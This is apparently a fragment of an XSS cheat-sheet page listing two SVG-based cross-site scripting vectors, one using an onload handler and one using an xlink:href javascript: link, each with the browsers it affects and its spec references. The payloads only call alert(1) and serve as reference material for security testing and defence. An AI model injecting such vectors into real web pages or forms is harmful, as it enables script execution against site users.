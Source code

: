 ```
<svg onload="javascript:alert(1)" ></svg> 
```

Not really a bug to fix, this is desired behaviour and only increases XSS scope.

*   chrome 4.0
*   chrome latest

*   safari 3.4

*   safari latest

*   firefox 2.0

*   firefox latest

*   opera 9.x

*   opera latest

*   internet explorer 9.0

*   internet explorer latest

*   xss

*   svg
*   onload
*   chrome
*   firefox
*   safari
*   opera

*   [`www.w3.org/TR/SVG11/attindex.html`](http://www.w3.org/TR/SVG11/attindex.html)

*   [`www.w3.org/TR/SVGTiny12/attributeTable.html`](http://www.w3.org/TR/SVGTiny12/attributeTable.html)

reporter：gareth

### SVG simple passive JavaScript execution via XLink#87test

Browsers that support SVG, forced to support XLink. The parameter of the attribute "xlink:actuate" for <a> tag is fixed - "onRequest".

```
<svg > <a  xlink:href="javascript:alert(1)"><rect width="1000" height="1000" fill="white"/></a> </svg> 
```

*   chrome 4.0
*   chrome latest

*   safari 3.4

*   safari latest

*   firefox 3.0

*   firefox latest
